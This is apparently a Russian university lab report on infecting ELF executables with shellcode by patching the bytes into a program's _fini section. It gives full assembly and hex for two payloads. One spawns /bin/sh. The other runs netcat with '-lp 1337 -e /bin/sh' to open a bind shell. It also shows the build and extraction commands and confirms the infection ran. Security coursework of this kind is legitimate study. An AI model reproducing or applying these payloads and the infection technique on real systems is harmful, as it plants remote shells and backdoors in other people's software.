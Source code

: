 # Лабораторная работа №2

По дисциплине Модели Нарушения Безопасности и Вирусология.

Выполнили:
- Бахир А.Д. группа 7361
- Богович А.Н. группа 7361

Преподаватель:
Савельев М.Ф.

## Задание

1. Выбрать PE файл для заражения . Рекомендуется взять стандартные приложения, например блокнот. Можно выбрать любые другие.
2. Определить оптимальное место расположения шелкода и расположить  его так, чтобы основная логика работы приложения не нарушилась.
3. Продемонстрировать запуск шеллкода при работе приложения по выбранному тригеру. (Например, при работе блокнота каждое заданное время во внешний файл пишется строчка произвольная строчка текста, тем самым увеличивая файл). МОЖНО выбрать ЛЮБОЕ действие шеллкода.

## Описание работы

### Выбор заражаемого файла

Выберем файл для заражения. Так как работа выполняется в Unix системе, файл будет не PE, а ELF, но сильных различий это не вносит. Попробуем заразить два исполняемых файла, один из которых это наша "тестовая" программа, а второй - текстовый редактор Mousepad, аналог блокнота в окружении xfce.

Исходный код тестовой программы:

```сpp
#include <stdlib.h>
#include <unistd.h>
 
 
int main (void)
{
    write(1, "hello and bye\n", 15);
    return EXIT_SUCCESS;
}
```

### Подготовка шелл кода

Для заражения попробуем использовать два шеллкода с различной длинной.

Первый совершает системный вызов `execveat("/bin/sh")`:

Исходный код:

```asm
    push   0x42
    pop    rax
    inc    ah
    cqo
    push   rdx
    mov    rdi, 0x68732f2f6e69622f
    push   rdi
    push   rsp
    pop    rsi
    mov    r8, rdx
    mov    r10, rdx
    syscall
```

Далее, нам нужно получить последовательность инструкций в шестнадцатиричном формате. Для этого компилируется шеллкод в исполняемый файл, дизассемблируем его и приводим дизассемблированные инструкции к нужному нам виду.

Компилируем:

```shell
nasm -f elf64 ${nasm_file} -o build/${filename}.o \
    && ld -m elf_x86_64 build/${filename}.o -o build/${filename}
```

Дизассемблируем:

```shell
objdump -d ${FILE} \
    | grep '[0-91a-f]:' \
    | grep -v 'файл' \
    | cut -f2 -d: \
    | cut -f1-7 -d' ' \
    | tr -s ' ' \
    | tr 't' ' ' \
    | sed 's/ $//g' \
    | sed 's/[\t ]//g' \
    | paste -d '' -s
```

Получаем следующие данные:

```
6a4258fec448995248bf2f62696e2f2f736857545e4989d04989d20f05
```

Аналогично поступим со вторым шеллкодом. 

Исходный код:

```asm
BITS 64
xor rdx,rdx
mov rdi, qword 0x636e2f6e69622fff
shr rdi,0x08
push rdi
mov rdi,rsp
  
mov rcx, qword 0x68732f6e69622fff
shr rcx,0x08
push rcx
mov rcx,rsp
  
mov rbx, qword 0x652dffffffffffff
shr rbx,0x30
push rbx
mov rbx,rsp
  
mov r10, qword 0x37333331ffffffff
shr r10,0x20
push r10
mov r10,rsp
  
mov r9, qword 0x702dffffffffffff
shr r9,0x30
push r9
mov r9,rsp
  
mov r8, qword 0x6c2dffffffffffff
shr r8,0x30
push r8
mov r8,rsp
  
push rdx ;push NULL
push rcx ;push address of 'bin/sh'
push rbx ;push address of '-e'
push r10 ;push address of '1337'
push r9 ;push address of '-p'
push r8 ;push address of '-l'
push rdi ;push address of '/bin/nc'
  
mov rsi,rsp
xor rax, rax
mov rax,59
syscall
```

Получаем данные:

```
4831d248bfff2f62696e2f6e6348c1ef08574889e748b9ff2f62696e2f736848c1e908514889e148bbffffffffffff2d6548c1eb30534889e349baffffffff3133333749c1ea2041524989e249b9ffffffffffff2d7049c1e93041514989e149b8ffffffffffff2d6c49c1e83041504989e0525153415241514150574889e64831c0b83b0000000f05
```

### Заражение файла

Для начала нужно опоределить место заражения исполняемого файла. Для этого воспользуемся утилитой objdump. На рисунке можно видеть результат дизассемблирования. Шеллкод будем помещать в функцию `_fini` (адрес в файле: `0x11c8`)

![](/docs/mnbiv_3.png)

На рисунке ниже представлено заражение файла. Справа в текстовом редакторе показан шеллкод, слева внизу открыт бинарный файл тестовой программы в hex формате. Выделеный участок - байты куда был вставлен шеллкод (адрес можно видеть слева). Начало шеллкода располагается по определённому заранее адресу - `0x11с8`.

![](/docs/mnbiv_4.png)

Слева вверху запущена заражённая тестовая программа с помощью утилиты strace. 
Как можно видеть, происходит вызов `execveat(., "/bin/sh")`, следовательно, заражение было выполнено успешно и вредоносный код выполнился.